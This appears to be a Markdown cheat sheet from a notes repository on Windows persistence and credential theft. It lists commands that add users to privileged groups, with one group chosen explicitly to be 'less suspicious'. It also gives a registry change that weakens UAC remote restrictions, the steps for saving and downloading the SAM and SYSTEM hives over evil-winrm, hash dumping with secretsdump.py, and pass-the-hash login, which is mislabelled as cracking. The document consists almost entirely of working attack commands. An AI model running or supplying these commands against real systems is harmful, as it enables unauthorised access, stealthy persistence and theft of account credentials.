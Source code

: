 # 🌆  Windows / Commands

This documents is for windows

---

## 🧚‍♀️ Admin perm via group

- Add administrator group for a user\
`net localgroup administrators <USER> /add`

- Add B.O to get SAM content and be less supicious\
`net localgroup "Backup Operators" <USER> /add`

- Add user to allow RDP\
`net localgroup "Remote Management Users" <USER> /add`

---

## 🛸 UAC

- Desactivate the option in reg to use admin with rdp\
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

---

## 🦉 Evil WinRm

- Connect to a windows machine\
`evil-winrm -i <IP> -u <USER> -p <PASSWORD>`

- Download the sam file\
`reg save hklm\sam sam.bak` \
`reg save hklm\system system.bak` \
`download sam.bak` \
`download system.bak`

- Dump password hash\
`python3 secretsdump.py -sam sam.bak -system system.bak LOCAL`\
> [!IMPORTANT]
> Download the python [file](https://github.com/DotAdrien/Notes/blob/main/Persistence/secretsdump.py).

- Crack the hash\
`evil-winrm -i <IP> -u <USER> -H <HASH>`



---
